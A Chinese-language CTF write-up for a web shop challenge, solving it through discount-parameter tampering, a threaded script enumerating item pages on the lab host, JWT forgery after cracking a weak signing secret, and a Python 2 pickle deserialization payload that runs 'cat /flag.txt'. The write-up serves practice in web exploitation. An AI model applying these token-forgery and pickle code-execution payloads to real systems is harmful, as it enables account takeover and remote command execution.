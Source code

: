 登陆看到

![图片](https://github.com/user-attachments/assets/7f093c34-b7f9-4664-9080-aaeda7b5f736)

然后去购买界面
因为有提示薅羊毛与逻辑漏洞
所以就是逻辑漏洞试一下

经过fuzz 只有优惠卷能改

![图片](https://github.com/user-attachments/assets/292a7a0a-4731-4c9d-aacd-ab52b31cdf0e)

改成0.1就是一折
但是这个点满怎么点呢？

![图片](https://github.com/user-attachments/assets/6fe01dc5-a4bb-4e61-8c95-c9ed25a0bcc0)


![图片](https://github.com/user-attachments/assets/ba8b7c46-ff81-4990-9666-5b710fd77165)
看到是info/4
这个是什么?EKanEhgLeJTKhBdqMwevWIenptkDoUPlQxvXesLuUkeQbuPWwAPaDMZoRdHFbSTpaHzDxCrhXgORrIYWUDcGvQDCjyEJsywuhsBA
先不管
写脚本跑出v6
```import requests
from bs4 import BeautifulSoup
from concurrent.futures import ThreadPoolExecutor


b_url = "http://61.147.171.105:53808/info/"


def check_page(i):
    url = f"{b_url}{i}"
    try:
        response = requests.get(url)
        if response.status_code == 200:
            soup = BeautifulSoup(response.text, 'html.parser')
            if soup.find('img', src="/static/img/lv/lv6.png"):
                print(f"Found lv6.png at: {url}")
    except requests.RequestException as e:
        print(f"Error fetching {url}: {e}")


def main():
    with ThreadPoolExecutor(max_workers=50) as executor:  
        executor.map(check_page, range(1, 10001))

if __name__ == "__main__":
    main()
```

![图片](https://github.com/user-attachments/assets/7f698e04-dd82-4de8-aa4f-4bbff2a2b055)

在Found lv6.png at: http://61.147.171.105:53808/info/1624

![图片](https://github.com/user-attachments/assets/5c7b59b9-aedd-46fa-891d-f4833395361c)

Price: 1145141919.0

hint:I'm flag man
价格有一点点高
改一下打折
提示操作失败买都买不了

在包里我们一直能看到一个jwt
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3R0In0.shtaGFY4ElUWy2uZcrkuiNmRozCQcF8J96Z9zE573V8

![图片](https://github.com/user-attachments/assets/f0448c34-54cf-443e-be3a-e9e4ee85900c)
改成admin
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.U9kFejeDXwxz1jiRFypKoFCb5Sor_CWe-_gr-uqFwtE
发现伪造的不通？？？
跑一下密钥 ....是几把这个
1Kun
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo

然后买还是没反应 看个人中心是不是admin

![图片](https://github.com/user-attachments/assets/11617c2f-54a6-4742-ba31-5949aa456b0c)

![图片](https://github.com/user-attachments/assets/0d8e92a9-4af1-4a52-b7bc-c391a67225b0)
后门？
不是
![图片](https://github.com/user-attachments/assets/719b19a5-fc45-4b56-8448-fccf103d3a19)
v6啥也没有啊
我尝试加jwt再次爆破路径发现还是1246那个lv6

所以我走了一遍流程发现在购物车直接结账
改这个id=1624&price=1145141919.0&discount=0.000000001
说不定能结走

然后我就发现了/b1g_m4mber

![图片](https://github.com/user-attachments/assets/6788af58-f4a1-4b1d-9fe9-91d32e4c7a96)

然后我们拿管理员

![图片](https://github.com/user-attachments/assets/f4956a97-0e88-4a3f-94e3-616a32f473b2)
![图片](https://github.com/user-attachments/assets/b39d6539-b169-45be-a344-f4f17e322388)
![图片](https://github.com/user-attachments/assets/c9032795-6eb9-4ebc-9e0d-d2c1a145ad35)
果然后面在这 有一个源码

下载是.py 我直接警觉原型链污染

好吧是反序列化pickle.loads
![图片](https://github.com/user-attachments/assets/55cb2a64-f516-4329-aba2-bf2e37eed493)
 p = pickle.loads(urllib.unquote(become))
 
Pickle 反序列化漏洞
Ref. https://xz.aliyun.com/t/14061?time__1311=GqAxuDRD0iwxlEzG7Dy7YDkKYnjxWTKpD

这里位置是
become = self.get_argument('become')
p = pickle.loads(urllib.unquote(become))
become 然后url解码

            
因为库的问题卡了我好久py3的subprocess库转出来的payload不对
```import pickle
import urllib
import commands  # Python 2 only

class payload(object):
    def __reduce__(self):
        #ls /
        return (commands.getoutput, ("cat /flag.txt",))  # Using commands.getoutput to execute the command

a = pickle.dumps(payload())
a = urllib.quote(a)  # In Python 2, use urllib.quote
print(a)
```
#ccommands%0Agetoutput%0Ap0%0A%28S%27cat%20/flag.txt%27%0Ap1%0Atp2%0ARp3%0A.
![图片](https://github.com/user-attachments/assets/89cb2931-76ae-40c8-affa-62d4e963c950)

# flag{dfe54e6fe1e34f1e8fb03c8b50e963bd}
![图片](https://github.com/user-attachments/assets/729aa913-f82c-4613-9197-ea30e4fad373)
